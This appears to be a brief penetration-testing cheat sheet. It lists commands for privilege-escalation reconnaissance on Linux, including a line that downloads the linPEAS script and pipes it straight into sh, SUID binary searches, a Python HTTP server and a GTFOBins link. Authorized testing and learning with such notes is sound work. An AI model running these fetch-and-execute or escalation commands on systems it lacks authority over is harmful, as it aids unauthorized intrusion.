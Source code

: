 ## running tool on background and redirect the output
```
ping -c5 8.8.8.8 > temp/output.log 2>&1 &
```

## linpeash
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## binary suid
```
find /bin -perm -4000
find / -perm -u=s -type f 2>/dev/null
```

## python directory list
```
python -m SimpleHTTPServer 80
```

## gtfobin
```
https://gtfobins.github.io/
```
